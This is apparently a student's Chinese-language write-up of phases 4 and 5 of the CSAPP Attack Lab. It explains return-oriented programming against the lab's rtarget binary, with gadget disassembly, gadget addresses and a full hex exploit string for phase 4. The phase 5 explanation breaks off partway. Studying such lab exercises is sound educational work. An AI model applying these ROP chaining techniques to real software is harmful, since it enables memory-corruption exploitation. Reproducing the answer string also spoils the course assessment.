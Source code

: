 NOP：由单个字节0x90编码。它的唯一效果是使程序计数器被1递增。

## phase 4

对于第4阶段，将重复第2阶段的攻击，但使用的*gadget farm*对程序进行了攻击。可以使用由以下指令类型组成的小工具构建解决方案，仅使用前八个x86-64寄存器（％rax –％rdi）。

想办法实现下面的两条语句

```assembly
popq %rax		# 58
movq %rax,%rdi	# 48 89 c7
```

```assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
```

通过`gcc -c`以及`objdump -d`重定向生成`farm.s`，在vim编辑器下通过`/48 89 c7`就可以查询有用到这几个指令语句。`pop`指令的地址是`4019ab`，`movq %rax,%rdi`指令地址是`0x4019a2`。ROP攻击就由`pop %rax`，再存入`cookie`，`movq %rax,%rdx`，再跳转到`touch2`。

`./hex2raw < ./ans/ans4.txt | ./rtarget -q`检验是否正确。

ans4.txt

> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> 01 01 01 01 01 01 01 01
> ab 19 40 00 00 00 00 00
> fa 97 b9 59 00 00 00 00
> a2 19 40 00 00 00 00 00
> ec 17 40 00 00 00 00 00


## phase 5

这里我放下前面参考链接里[大佬解题方法](https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md)

要求将 `cookie` 字符串的地址存入 `%rdx` ，考虑到栈随机化，无法直接得到地址。注意到这里 `48 89 e0 90` 是 `movq %rsp,%rax` ，将栈顶的地址存在了 `%rax` ，可以利用这一点来传地址。

```assembly
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```

由上题我们可以实现 `movq %rax,%rdi` ，是不是直接将传入的字符串存到栈顶，再将栈顶地址存入 `%rdi` 就做完了？这里要注意，如果直接将字符串存到栈顶， `48 89 e0 90 c3` 在返回时会跳转到栈顶，字符串就成要运行的指令了，就会发生错误。
这里考虑将栈顶地址加值传入，使得要传入的字符串与栈顶拉开距离，不被执行。（我开始试图用官方文档给的参考指令给 `%eax` 做加法，但很复杂还不一定能成，我把它附在了最后面[1]，有闲情再看吧T_T）这里的加法用到了一个文档里没有的指令：
